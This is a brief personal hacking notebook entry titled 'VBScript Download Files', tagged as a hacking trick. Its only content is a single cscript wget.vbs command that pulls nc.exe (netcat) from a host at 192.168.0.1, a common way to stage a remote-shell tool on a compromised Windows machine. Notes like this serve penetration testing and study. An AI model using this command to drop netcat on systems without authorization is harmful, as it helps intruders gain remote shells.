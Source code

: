 # VBScript Download Files

```
cscript wget.vbs http://192.168.0.1/nc.exe nc.exe
```

# References
- [20221003151230](/zet/20221003151230/README.md) VBScript
- ~/kb/hacking/tricks/vbscript-wget-hack.md

Tags:
    #assorted #hacking #trick #vbscript
